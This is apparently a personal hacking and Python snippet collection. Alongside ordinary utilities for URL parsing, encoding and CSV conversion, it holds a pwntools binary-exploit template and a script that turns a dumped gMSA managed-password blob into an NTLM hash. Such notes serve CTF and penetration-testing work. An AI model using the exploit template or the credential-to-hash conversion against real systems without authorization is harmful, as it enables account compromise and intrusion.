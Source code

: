 # python scripting
## pwntools template binary exploit script
## test exploit locally
## connect to remote server
~/kb/hacking/pwn/boilerplate-pwn-script.py
```python
#!/usr/bin/python3
# pwntools template binary exploit script

from pwn import *

TIMEOUT = 1 # global timeout value, alter if payload chunking or waiting for leak output

exe = './binaryname' # set binary name to reuse
context.binary = exe

# test exploit locally
p = process(exe)
libc = ELF('./libc.self')

# connect to remote server
#p = remote('1.2.3.4', 31337)
#libc = ELF('./libc.so.6') # leaked libc version from server

elf = ELF(exe)

p.recv(timeout=TIMEOUT)
p.sendline('-65338 -1')
p.recvuntil('>')
p.sendline('3')

#offset of return address
RET_OFFSET = 40

POP_RDI = 0x00000000004011d3 # for ropchains, find addresses of pop RDI, RSI, r9 as needed for params
```

## convert CSV to TSV
~/kb/python/convert-csv-to-tsv.py
```python
#!/usr/bin/python3
# convert CSV to TSV
import csv, sys
csv.writer(sys.stdout, dialect='excel-tab').writerows(csv.reader(sys.stdin))
```

## parse all get parameters from a url
~/kb/python/get-url-params.py
```python
#!/usr/bin/python3

# parse all get parameters from a url

from urllib.parse import unquote
params = {}
s = input()
urlelems = s.split('?')
if len(urlelems) > 1:
    s = urlelems[1]
    for p in s.split('&'):
        elems = p.split('=')
        k = elems[0]
        if len(elems) > 1:
            v = elems[1]
            params[k] = unquote(v)
        else:
            params[k] = ''
print(repr(params))
```

## urlencode every input line
## read and process lines of input
~/kb/python/urlencode.py
```python
#!/usr/bin/python3
from urllib.parse import quote

# urlencode every input line

# read and process lines of input
import fileinput
for rawline in fileinput.input():
    line = rawline.rstrip("\n")
    print(quote(line))
```

## convert a GMSA managed password structure to a NTLM hash
~/kb/hacking/windows/convert-msds-managed-password-to-ntlm-hash.py
```python
#!/usr/bin/python3
# convert a GMSA managed password structure to a NTLM hash
## input file - managed_password.hex
## the value of msDS-ManagedPassword is decimal numbers representing bytes, one per line. convert to hex.
## $ cat managed_password | awk '{ printf("%.2x", $1) }' > managed_password.hex
## most of this taken from gMSADumper https://github.com/micahvandeusen/gMSADumper
## coyote0x90
from ldap3 import ALL, Server, Connection, NTLM, SASL, KERBEROS, extend, SUBTREE
import argparse
import binascii
from Cryptodome.Hash import MD4
from impacket.ldap.ldaptypes import ACE, ACCESS_ALLOWED_OBJECT_ACE, ACCESS_MASK, LDAP_SID, SR_SECURITY_DESCRIPTOR
from impacket.structure import Structure
import sys

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        #('AlignmentPadding',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]

f = open("managed_password.hex", "r")
mp_hex = f.read()
mp_bytes = bytes.fromhex(mp_hex)
f.close()

blob = MSDS_MANAGEDPASSWORD_BLOB()
blob.fromString(mp_bytes)
hash = MD4.new ()
hash.update (blob['CurrentPassword'][:-2])
ntlm = binascii.hexlify(hash.digest()).decode("utf-8")
print(ntlm)

```

## fuzz valid dates
~/kb/hacking/tricks/python-fuzz-valid-dates.py
```python
from datetime import datetime, timedelta
# fuzz valid dates
dates = [(datetime.today() - timedelta(days=x)).strftime('%Y-%m-%d') for x in range(0, 365)]
for d in dates:
    print(d)
```

## parse all post params from post content given on standard input
~/kb/python/decode-post-params.py
```python
#!/usr/bin/python3

# parse all post params from post content given on standard input

from urllib.parse import unquote
params = {}
s = input()
for p in s.split('&'):
    elems = p.split('=')
    k = elems[0]
    v = elems[1]
    params[k] = unquote(v)
print(repr(params))
```

